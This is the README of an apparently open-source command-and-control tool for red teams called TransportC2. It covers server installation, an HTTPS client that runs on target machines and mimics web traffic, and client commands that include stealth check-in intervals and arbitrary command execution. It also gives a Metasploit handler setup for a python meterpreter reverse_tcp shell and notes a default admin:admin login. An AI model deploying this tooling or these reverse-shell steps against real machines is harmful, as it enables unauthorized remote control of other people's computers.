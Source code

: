 # TransportC2

## Summary
TransportC2 is a command and control server that is able to run in the background as a service. This allows penetration testers and red teamers the ability to spend time gathering target machines, without being tied to an active session. Interact with clients through a private web interface that requires authentication, and allows administrators to add multiple users. All logins, commands, and responses are logged to provide a traceable point of reference.

Why "Transport"? TransportC2 is meant to be a long-term command and control server that allows users to direct payloads to other, shorter-term channels. This is exemplified by the built-in Metasploit payload, simply execute "msfpayload 192.168.1.1 4444" to open a meterpreter session on an infected client.


## Server
The TransportC2 server has two components: 
1) An HTTPS server that runs over port 443 and accepts incoming client connections. 
2) An HTTPS admin interface that runs over port 8443 and allows users to interact with clients via web browser. This portal requires a username and password with a default login of **admin**:**admin**. Once logged in user's can change their password and add other users to allow team sharing.

*Modify server configurations prior to running the install script @ server/config.py*

#### Install
The setup.sh script will install all necessary requirements, create cert & key files, and move the working directory to /opt/transportc2:
```bash
git clone https://github.com/m8r0wn/transportc2
cd transportc2/install
sudo chmod +x setup.sh
./setup.sh
```

#### Interact C2 Service
```bash
sudo systemctl start transportc2.service
sudo systemctl stop transportc2.service
sudo systemctl status transportc2.service
```


## Client
As of now, TransportC2 has a PoC client written in Python 2/3. Clients will make HTTPS requests to the C2 server and mimic a web connection. Variables at the top of the client file can be modified to change client check-in intervals, requesting page, etc. 

#### Client Usage
Run the client on a target machine:
```bash
python3 https_client.py 127.0.0.1 443
```

#### Client Commands
Once a client is connected, login to the Admin Interface to execute one of the following commands:
```
stealth [int1] [int2]                   - Change client check-in intervals
msfpayload [ip] [port]                  - Launch Built in meterpreter payload
change_date [4-digit yr],[month],[day]  - Change max kill date on client
close                                   - Close / kill client
[command]                               - Execute payload on client
```

#### MSF Listener
Setup Metasploit to use built in client payload:
```
use exploit/multi/handler
set payload python/meterpreter/reverse_tcp
set Lhost 192.168.1.1
set Lport 4444
execute
```


## Contributors 
Thanks to the following contributors that made this project possible:
* @darneymartin


## Screenshots
![Cmd_Panel](server/AdminServer/static/img/cmd.png)
